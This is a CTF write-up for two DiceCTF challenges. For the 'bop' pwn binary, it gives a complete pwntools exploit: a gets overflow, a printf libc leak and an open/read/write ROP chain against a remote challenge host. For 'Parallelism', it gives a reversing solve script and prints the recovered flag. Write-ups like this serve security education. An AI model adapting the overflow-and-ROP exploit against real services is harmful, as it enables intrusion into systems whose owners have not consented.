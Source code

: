 ```yaml
---
title: DiceCTF 2023 and DiceCTF Quals 2024
category: WRITEUP, CTF, SECCOMP, RE, PWN
date: May 15th, 2024
description: Writeup of a few challenges from DiceCTF 2023.
---
```


## BOP
The vulnerability in this binary is very simple, a simple gets in main. There
are a few main things to note. 

1. We can only call open, read, and write syscalls due to seccomp being enabled
2. There is only a pop rdi gadget

#### Getting the Leak
To get a leak, we can do a ret2puts with our pop rdi gadget, and printf.
It works the exact same although it is more prone to a movaps stack alignment
error than puts.

We also weren't given a libc so we need to leak it from remote. We can 
do this by leaking multiple symbols and looking it up in the libc databasse.

#### ORW Rop Chain

This is just a simple open, read, write chain with the difference
being that instead of doing another write syscall, I just used printf.

We also need a space in memory that we can read to and write from that will store
the flag. Sometimes finding a space can be difficult statically, but we can use the
fact on how pages work to our advantage. Since pages have to be allocated in 0x1000 
aligned chunks, any writable data has to be at least a page big. 

We can then use gdb vmmap to see a writeable section that will most likely have extra
space even after the binary's section space. In this case I chose 0x404100 as my writable section.


```python
#!/usr/bin/python
from pwn import *

context.update(
        arch="amd64",
        endian="little",
        log_level="info",
        os="linux",
        terminal=["st"]
)

def start(binary):
    gs = '''
        init-pwndbg
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        b *0x4012f9
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote("mc.ax",30284)
    else:
        return process(binary)


def leak_libc(p,e,r,l):

    pad = b"A" * 40

    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    printf_got = p64(e.got["printf"])
    printf_plt = p64(e.plt["printf"])
    main = p64(0x4012f9)

    got_funcs = [p64(e.got["printf"]), p64(e.got["gets"]), p64(e.got["setbuf"])]

    chain = ret + pop_rdi + got_funcs[0] + printf_plt
    chain += ret + main

    p.recvuntil(b"bop? ")
    p.sendline(pad + chain)
    leak = u64(p.recvuntil(b"Do").split(b"Do")[0] + b"\x00\x00")
    log.info(f"printf leak: {hex(leak)}")

    print(hex(l.sym["printf"]))
    libc_base = leak - l.sym["printf"]
    log.info(f"Leaked Libc Base: {hex(libc_base)}")
    return libc_base

def read_file(p,e,r,l,base):
    lr = ROP(l)

    pad = b"A" * 40

    main = p64(0x4012f9)
    writable_mem = p64(0x404100)
    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    pop_rsi = p64(r.find_gadget(["pop rsi",  "pop r15", "ret"])[0])
    pop_rdx = p64(lr.find_gadget(["pop rdx", "pop rbx", "ret"])[0] + base)
    read = p64(l.sym["read"] + base)
    log.info(f"Pop rdi: {hex(u64(pop_rdi))}")
    log.info(f"Pop rsi: {hex(u64(pop_rsi))}")
    log.info(f"Pop rdx: {hex(u64(pop_rdx))}")
    log.info(f"read: {hex(u64(read))}")

    log.info(f"Reading in /srv/app/flag.txt")

    chain = pop_rdi + p64(0)
    chain += pop_rsi + writable_mem + p64(0)
    chain += pop_rdx + p64(18) + p64(0)
    chain += read + main
    chain += ret + main


    p.recvuntil(b"bop?")
    p.sendline(pad + chain)
    pause()
    p.sendline(b"flag.txt\x00")

def open_flag(p,e,r,l,base):
    lr = ROP(l)
    pad = b"A" * 40

    writable_mem = p64(0x404100)
    main = p64(0x4012f9)
    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    pop_rsi = p64(r.find_gadget(["pop rsi",  "pop r15", "ret"])[0])
    syscall = p64(lr.find_gadget(["syscall", "ret"])[0] + base)
    pop_rax = p64(lr.find_gadget(["pop rax", "ret"])[0] + base)


    chain = pop_rdi + writable_mem
    chain += pop_rsi + p64(0x000) + p64(0)
    chain += pop_rax + p64(2)
    chain += syscall + ret + main

    log.info(f"Opening /srv/app/flag.txt")

    p.recvuntil(b"bop?")
    p.sendline(pad + chain)

def read_flag(p,e,r,l,base):
    lr = ROP(l)

    pad = b"A" * 40

    main = p64(0x4012f9)
    writable_mem = p64(0x404100)
    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    pop_rsi = p64(r.find_gadget(["pop rsi",  "pop r15", "ret"])[0])
    pop_rdx = p64(lr.find_gadget(["pop rdx", "pop rbx", "ret"])[0] + base)
    printf = p64(e.plt["printf"])
    read = p64(l.sym["read"] + base)
    log.info(f"Pop rdi: {hex(u64(pop_rdi))}")
    log.info(f"Pop rsi: {hex(u64(pop_rsi))}")
    log.info(f"Pop rdx: {hex(u64(pop_rdx))}")
    log.info(f"read: {hex(u64(read))}")

    log.info(f"Reading in flag")

    chain = pop_rdi + p64(3)
    chain += pop_rsi + writable_mem + p64(0)
    chain += pop_rdx + p64(0x60) + p64(0)
    chain += read
    chain += pop_rdi + writable_mem
    chain += printf

    p.recvuntil(b"bop?")
    p.sendline(pad + chain)
    p.interactive()



if __name__=="__main__":
    file = './bop'

    p = start(file)
    e = context.binary = ELF(file)
    r = ROP(e)

    if args.REMOTE:
        libc = ELF("./libc.so.6")
    else:
        libc = e.libc

    base = leak_libc(p,e,r, libc)
    read_file(p,e,r,libc,base)
    open_flag(p,e,r,libc,base)
    read_flag(p,e,r,libc,base)


```



## Parallelism


### Static Analysis
When we take a look at the binary we can see that there is a string that is
64 characters long and contains the characters "d", "i", "c", "e", "{", "}". 
This can tell us that it is a flag scrambler.

### Patching the Binary
When we look at the binary, we can see that there is a function call that will
take in the scrambled input. We can patch this to print out the scrambled input
to determine the order of scrambling. If we patch it with puts it will print the
scrambled input. We can send a string of the alphabet and get the order

### Unscrambling the Flag
We can make a simple script that will reverse the scrambling on the encrypted flag
```
alp = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-+"
test = "51sZIpMhSrd7HBUgRmCQPy23vu6joc-LEXT9KzbaOxefAtY8l+kJ0GNw4WnqFiDV"
enc_flag = "m_ERpmfrNkekU4_4asI_Tra1e_4l_c4_GCDlryidS3{Ptsu9i}13Es4V73M4_ans"
order = []

for a in alp:
    order.append(test.index(a))
flag = ""
for o in order:
    flag += enc_flag[o]

print(order)
print(flag)

```

Running the script gets us the flag
```
python solve_par.py
[39, 38, 29, 10, 42, 43, 15, 7, 61, 27, 50, 48, 17, 58, 28, 5, 59, 9, 2, 45, 25, 24, 55, 41, 21, 37, 44, 13, 18, 62, 32, 60, 53, 12, 4, 51, 36, 31, 6, 54, 40, 20, 19, 16, 8, 34, 14, 63, 57, 33, 46, 3, 52, 1, 22, 23, 56, 0, 26, 11, 47, 35, 30, 49]
dice{P4ral1isM_m4kEs_eV3ryt4InG_sUp3r_f4ST_aND_s3CuRE_a17m4k9l4}
```



## 
